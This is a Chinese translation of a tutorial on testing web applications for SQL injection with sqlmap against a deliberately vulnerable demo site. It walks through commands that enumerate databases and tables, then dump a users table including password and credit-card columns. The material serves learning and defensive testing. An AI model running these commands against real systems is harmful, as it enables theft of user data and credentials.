






# 你容易受到 SQL 注入的攻击吗？利用 Sqlmap

> 原文：<https://dev.to/silviobuss/are-you-vulnerable-to-a-sql-injection-attack-exploiting-with-sqlmap-4087>

## 什么是 SQL 注入？

如果您是 SQL 注入的新手，请访问这篇简单而精彩的文章[，它用示例](https://tableplus.io/blog/2018/08/sql-injection-attack-explained-with-example.html)解释了 SQL 注入攻击。

## post 是关于什么的？

我并不主张你开始利用 SQL 注入窃取其他人或公司的数据。但是，我确实认为您应该了解各种 SQL 注入技术，这样您就可以更好地准备防止它们在您自己的 web 应用程序中发生。

## 如何开始

防止这种攻击的第一步是确定您的应用程序中哪些(如果有的话)易受攻击。最好的办法就是自己发动攻击，看看是否成功。但是 SQL 是一种复杂的语言，因此构建可以注入到查询中以试图危害数据库的代码片段并不是一项简单的任务。

好消息是这是不必要的，因为我们需要做的只是运行一个自动化的 SQL 注入攻击工具来完成这项工作。

一个例子是 [Sqlmap](http://sqlmap.org/) (解释如下)，这是一个开源工具，也是自动化 SQL 注入最强大的工具之一，它完全支持 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird 等。

将它指向一个潜在的目标，Sqlmap 会探测该站点以确定正在使用的数据库类型。使用这些知识，这个工具然后构建查询来探测数据库的特征。最终用户几乎不需要 SQL 专业知识，Sqlmap 就可以从目标中提取字段、表，有时甚至是完整的数据转储。

## 如何防范 SQL 注入攻击

我们必须工作并改进现有的工具和流程(我们不需要重新发明轮子！).

关于这个主题的最佳建议和最佳实践集合在[bobby-tables.com](https://bobby-tables.com)和 [OWASP 备忘单系列](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.md)中。

## 使用 Sqlmap 1.3 (2019 发布版)开发 SQL 注入-一步一步讲解

为了展示它是如何工作的，我们将使用一个已经很脆弱的系统，这个系统是由 http://testphp.vulnweb.com 的网站 T2 开发的。

为了理解本教程，你应该对数据库驱动的 web 应用程序如何工作以及[如何找到易受攻击的 URL](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/)有所了解。

### 安装

首先，我们必须在我们的系统上安装 [python](https://www.python.org/downloads/) 。

我们可以通过使用命令克隆 Git 存储库来下载 Sqlmap:

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

### 入门

让我们试着通过在 URL 末尾添加一个单引号来确认漏洞:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--us_z5hez--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/yhlttcbekkntvwovjodm.PNG)

上面的 URL 在网页上显示了一个错误，说“您的 SQL 语法中有错误”。这是因为我们在后台通过 URL 在查询中输入了额外的单引号(')。因此，通过看到错误，我们可以理解 URL 容易受到[带内 SQL 注入](https://dzone.com/articles/sqli-part-3-in-band-and-inferential-sqli)的攻击。

### 第一步

在这个测试中，我们将使用一个标准的基于 HTTP GET 的请求来处理一个带有参数(？cat=1)。这将针对 **cat** 参数测试不同的 SQL 注入方法。

```
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

在结果中，我们可以看到服务器的数据库管理系统和利用的方法。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--LxeYdtfV--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/tkvcuc3f37vk7ctrgnq0.png)

### 第二步

一旦 Sqlmap 确认远程 url 易受 sql 注入攻击并可被利用，就使用`--dbs`来发现所有数据库。

```
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -dbs 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

[](https://res.cloudinary.com/practicaldev/image/fetch/s--nJEapKDB--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/e2j1gf4ti4topzph65eq.png)

### 第三步

现在，我们可以找出特定数据库中存在哪些表。让我们使用数据库 **acuart** 。

```
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart --tables 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

[](https://res.cloudinary.com/practicaldev/image/fetch/s--okXBSEwh--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/zhpjg94eh9pxpz6ou3gf.png)

### 第四步

现在我们已经有了表的列表，这将是获取一些重要表的列。比如:**用户**。

```
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart --tables -T users --columns 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

[](https://res.cloudinary.com/practicaldev/image/fetch/s--6yBFyXMC--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/v5ar3yjoqakliavppyhi.png)

### 第五步

最后，我们可以从表中提取数据。下面的命令将简单地转储(csv)特定表格的数据。

```
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart -T users -C name,pass,uname,email,address,cc --dump 
```

<svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-on"><title>Enter fullscreen mode</title></svg> <svg width="20px" height="20px" viewBox="0 0 24 24" class="highlight-action crayons-icon highlight-action--fullscreen-off"><title>Exit fullscreen mode</title></svg>

[](https://res.cloudinary.com/practicaldev/image/fetch/s--eufht-9V--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/f8r44z09tvsf6x60akm0.png)

## 结论

Sqlmap 是一个非常强大的工具，高度可定制，我推荐阅读[使用指南](https://github.com/sqlmapproject/sqlmap/wiki/Usage)来探索所有特性。我们不能忘记探索其他 HTTP 方法(POST，PUT，DELETE 等)。).

[](https://twitter.com/silvio_buss)

### 资源

[http://sqlmap.org/](http://sqlmap.org/)
T3】https://www . esecurityplanet . com/threats/how-to-prevent-SQL-injection-attacks . html